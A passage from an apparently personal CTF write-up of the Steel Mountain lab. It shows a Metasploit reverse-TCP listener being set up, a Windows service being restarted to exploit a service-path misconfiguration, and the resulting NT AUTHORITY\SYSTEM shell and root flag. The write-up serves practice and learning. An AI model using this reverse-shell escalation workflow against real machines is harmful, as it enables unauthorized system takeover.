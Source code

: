 Then we set a listener with `metasploit`.

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.116.52
LHOST => 10.11.116.52
msf6 exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf6 exploit(multi/handler) > run
```

Finally we can start the service again and we should get a elevated shell.

```bash
C:\Program Files (x86)\IObit\Advanced SystemCare>sc start AdvancedSystemCareService9
```

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.116.52:4443 
[*] Sending stage (240 bytes) to 10.10.43.0
[*] Command shell session 2 opened (10.11.116.52:4443 -> 10.10.43.0:49260) at 2024-12-27 19:25:34 +0100


Shell Banner:
Microsoft Windows [Version 6.3.9600]
-----
          

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

After restarting the service we get a shell as `NT AUTHORITY\SYSTEM`.

We can see the root flag inside the `C:\Users\Administrator\Desktop` folder as `root.txt`.

```bash
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314**************03a587db80
```

---
## Final Thoughts

The **Steel Mountain CTF** was a solid learning experience. It combined realistic vulnerabilities like outdated software and misconfigurations, making the process straightforward yet engaging. Each step, from exploiting HFS to privilege escalation via the service path, reinforced practical skills. Overall, a well-structured challenge that builds confidence and sharpens techniques for real-world scenarios.

![Desktop View](SteelPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

